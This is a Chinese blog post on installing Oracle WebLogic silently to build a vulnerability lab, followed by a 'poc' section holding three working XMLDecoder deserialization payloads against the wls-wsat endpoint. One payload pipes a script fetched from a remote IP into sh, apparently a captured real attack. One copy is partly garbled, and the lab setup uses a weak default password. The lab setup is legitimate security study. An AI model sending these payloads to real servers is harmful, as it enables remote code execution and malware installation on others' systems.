

Title:静默模式搭建weblogic漏洞实验环境
Date: 2017-09-22 10:20
Category: 基础知识
Tags: 标签
Slug: 
Authors: bit4
Summary: 


该文章主要记录weblogic的环境搭建过程，以静默模式进行，以便在linux服务器或者docker中进行。


### 下载

下载JDK:http://www.oracle.com/technetwork/java/javase/downloads/jdk8-downloads-2133151.html

JDK和JRE的关系如下，weblogic需要完整的JDK，而不仅仅是JRE：



下载weblogic:http://www.oracle.com/technetwork/middleware/weblogic/downloads/wls-main-097127.html

选择Oracle WebLogic Server 12.2.1.2的通用安装程序。

### 安装

安装JDK:

```bash
tar -zxvf jdk-8u151-linux-x64.tar.gz
mv jdk1.7.0_71 /usr/local/
vim /etc/profile

在末尾添加
export JAVA_HOME=/usr/local/jdk1.8.0_151
export JRE_HOME=/usr/local/jdk1.8.0_151/jre/
export CLASSPATH=.:$JAVA_HOME/lib/dt.jar:$JAVA_HOME/lib/tools.jar
export PATH=$JAVA_HOME/bin:$PATH

source /etc/profile
```

安装weblogic:

我们选择静默安装模式（图形安装模式中，安装程序会要求图形界面相关参数设置，由于ubuntu server没有图形界面，这种模式无法进行），这种模式的命名格式如下，所以需要先准备好2个配置文件【参考5】。

```
java -jar fmw_12.2.1.2.0_wls.jar -silent -response file -invPtrLoc file
```

oraInst.loc文件的创建准备【参考3】，尝试不指定oraInst.loc参数运行安装，将提示可以用脚本生成该文件，当然也可以自己手动创建，inventory_loc是缓存目录，inst_group是当前用户所在组，可以用groups查看：

```
bash /tmp/createCentralInventory1514359537430.sh /tmp/Inventory bit4
more /etc/oraInst.loc


inventory_loc=/tmp/Inventory
inst_group=bit4
```

wls.rsp response文件的创建【参考4】,主要修改ORACLE_HOME

```
[ENGINE]
 
#DO NOT CHANGE THIS.
Response File Version=1.0.0.0.0
 
[GENERIC]
 
#The oracle home location. This can be an existing Oracle Home or a new Oracle Home
ORACLE_HOME=/tmp/weblogic
 
#Set this variable value to the Installation Type selected. e.g. WebLogic Server, Coherence, Complete with Examples.
INSTALL_TYPE=WebLogic Server
 
#Provide the My Oracle Support Username. If you wish to ignore Oracle Configuration Manager configuration provide empty string for user name.
MYORACLESUPPORT_USERNAME=
 
#Provide the My Oracle Support Password
MYORACLESUPPORT_PASSWORD=<SECURE VALUE>
 
#Set this to true if you wish to decline the security updates. Setting this to true and providing empty string for My Oracle Support username will ignore the Oracle Configuration Manager configuration
DECLINE_SECURITY_UPDATES=true
 
#Set this to true if My Oracle Support Password is specified
SECURITY_UPDATES_VIA_MYORACLESUPPORT=false
 
#Provide the Proxy Host
PROXY_HOST=
 
#Provide the Proxy Port
PROXY_PORT=
 
#Provide the Proxy Username
PROXY_USER=
 
#Provide the Proxy Password
PROXY_PWD=<SECURE VALUE>
 
#Type String (URL format) Indicates the OCM Repeater URL which should be of the format [scheme[Http/Https]]://[repeater host]:[repeater port]
COLLECTOR_SUPPORTHUB_URL=
```

执行安装：

```bash
unzip fmw_12.2.1.2.0_wls_Disk1_1of1.zip

su bit4
java -jar fmw_12.2.1.2.0_wls.jar -silent -responseFile  /tmp/wls.rsp -invPtrLoc /etc/oraInst.loc 
```

### 配置

正确安装完成后，接着进行domain的创建：

```
read template from "/tmp/weblogic/wlserver/common/templates/wls/wls.jar";

set JavaHome "/usr/local/jdk1.8.0_151";
set ServerStartMode "dev"; 

find Server "AdminServer" as AdminServer;
set AdminServer.ListenAddress "";
set AdminServer.ListenPort "7001";
set AdminServer.SSL.Enabled "true";
set AdminServer.SSL.ListenPort "7002";

//create a new user
create User "weblogic2" as u2;
set u2.password "weblogic123";

write domain to "/tmp/weblogic/user_projects/domains/base_domain/"; 
close template;
```

```bash
cd /tmp/weblogic/oracle_common/common/bin
./config.sh -mode=silent -silent_script=/tmp/create_domain.rsp -logfile=/tmp/create_domain.log
```


https://docs.oracle.com/middleware/12213/wls/WSOVR/toc.htm

http://liehu.tass.com.cn/archives/542?utm_source=tuicool&utm_medium=referral


poc

```bash
curl -X POST \
http:// IP:port/wls-wsat/CoordinatorPortType \
-H ’cache-control: no-cache' \
-H 'cont|ent-type: text/xml' \
-d <soapenv:EnveI ope xmI ns:soapenv="http://schemas, xmI soap, org/soap/enveIope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea. com/2004/06/soap/workarea/">
<java version="1.8" class="java. beans. XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>touch /tmp/test</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
```


```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 127.0.0.1:7001
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.84 Safari/537.36
Content-type: text/xml
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: bamboo.dash.display.toggles=buildQueueActions-actions-queueControl; BAMBOO-BUILD-FILTER=LAST_25_BUILDS; BAMBOO-MAX-DISPLAY-LINES=25; AJS.conglomerate.cookie="|tabContainer.relies_32_12_0977.selectedTab=Agents|tabContainer.tabContainer.selectedTab=User%20Details|tabContainer.remote-agents-tabs.selectedTab=Online%20remote%20agents"; ADMINCONSOLESESSION=Y2pWh8NQVZBNp36Q2QX1pVJfhnKGHtwF2BHs0kFZ1rLP2NCFBNpG!1508209308
Content-Length: 482

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> 
<soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.8" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="1">
<void index="0">
<string>calc</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```


```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.222.143:7001
Accept-Encoding: identity
Content-Length: 688
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:5.0) Gecko/20100101 Firefox/5.0
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Referer: http://www.baidu.com
Cache-Control: max-age=0
Content-Type: text/xml
X-Forwarded-For: 72.11.140.178

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
	<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
		<java version="1.8.0_131" class="java.beans.XMLDecoder">
		  <void class="java.lang.ProcessBuilder">
			<array class="java.lang.String" length="3">
			  <void index="0">
				<string>/bin/bash</string>
			  </void>
			  <void index="1">
				<string>-c</string>
			  </void>
			  <void index="2">
				<string>curl 72.11.140.178/setup-watch|sh</string>
			  </void>
			</array>
		  <void method="start"/></void>
		</java>
	  </work:WorkContext>
	</soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
```


参考：

1. https://www.anquanke.com/post/id/92003
2. http://www.linuxeye.com/Linux/2136.html
3. https://docs.oracle.com/middleware/1212/core/OUIRF/silent.htm#OUIRF331
4. https://docs.oracle.com/middleware/1212/core/OUIRF/response_file.htm#OUIRF390
5. https://docs.oracle.com/middleware/1212/core/OUIRF/overview.htm#OUIRF316
6. https://docs.oracle.com/en/middleware/fusion-middleware/index.html
7. https://www.cnblogs.com/fibonaccixue/p/6577377.html  weblogic静默安装